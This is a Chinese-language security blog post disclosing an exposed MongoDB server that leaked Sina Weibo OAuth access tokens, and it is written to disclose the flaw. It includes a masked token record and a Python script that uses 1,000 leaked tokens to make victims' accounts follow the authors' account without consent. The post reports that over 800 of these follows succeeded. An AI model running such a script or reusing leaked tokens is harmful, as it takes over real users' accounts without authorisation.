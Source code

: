 ```yaml
---
layout: post
title: Mongodb未授权访问漏洞之某主机泄露新浪微博accessToken
---
```


## {{ page.title }}<p class="date">{{ page.date | date_to_string }} - Evi1m0</p>

#### 背景

在前段时间邪红F1,2,4发出 [《Mongodb unauthorized access vulnerability global probing report》](http://www.hackersoul.com/post/mongodb_unauthorized_access_vulnerability_global_probing_report.html) 后，我们对这些受影响的列表进行了简单的数据分析，其中发现了一台有趣的主机。

#### 数据泄露

其中这台Mongodb数据主机存储着大量的微信公众号信息，新浪微博授权信息等敏感信息，其中我们对新浪微博授权信息进行简单的测试。

#### 测试过程

筛选1000条存储的用户新浪微博的授权数据，其中格式为：

    {
        "_modified" : ISODate("2014-09-14T06:30:33.718Z"),
        "_created" : ISODate("2014-09-14T06:30:33.718Z"),
        "uid" : "163****265",
        "url" : "u/163****265",
        "name" : "猫****",
        "screenName" : "猫****",
        "accessToken" : "2.00LniemB******d10ba02ef5oEMJTB",
        "description" : "",
        "verified" : false,
        "logo" : "http://tp2.sinaimg.cn/1635102265/50/4000*****04/1",
        "logoLarge" : "http://tp2.sinaimg.cn/1635102265/180/4000*****04/1",
        "type" : "normal",
        "_id" : "14872d****48a87"
    }
    
其中数据泄露新浪微博用户授权成功后的accessToken值，将数据以JSON进行导出后使用Python进行处理，提取出1000条accessToken方便进行测试。

[微博API](http://open.weibo.com/wiki/%E5%BE%AE%E5%8D%9AAPI)：

- [statuses/update 发布一条微博信息](http://open.weibo.com/wiki/2/statuses/update)
- [statuses/user_timeline/ids 获取用户发布的微博的ID](http://open.weibo.com/wiki/2/statuses/user_timeline/ids)
- [statuses/destroy 根据微博ID删除指定微博](http://open.weibo.com/wiki/2/statuses/destroy)
- [friendships/create 关注一个用户](http://open.weibo.com/wiki/2/friendships/create)
- [More](http://open.weibo.com/wiki/%E5%BE%AE%E5%8D%9AAPI)

之后我们使用关注用户API进行简单的测试，编写脚本批量的利用泄露的accessToken值进行关注用户：

    #!/usr/bin/env python
    # coding=utf8
    # author=evi1m0#ff0000team

    import requests

    f = open('./accessToken.txt','r')
    flag = 1
    for i in f:
        api_url = 'https://api.weibo.com/2/friendships/create.json'
        post = {"uid":"5238604657", "access_token":i.split()}
        requests.post(api_url, data=post)
        flag+=1
        print '[*] ' + str(flag) + ': ' + api_url
        print post
        print
        
其中uid为关注用户的UID，遍历./accessToken.txt中的accessToken进行请求，于是不一会儿的功夫我们测试微博收到了新增800多个粉丝的消息，后面我们又利用取消关注API进行了取消操作。

#### 状态

我们没有对这些数据进行恶意利用，目前已提交给官方进行及时修复：）

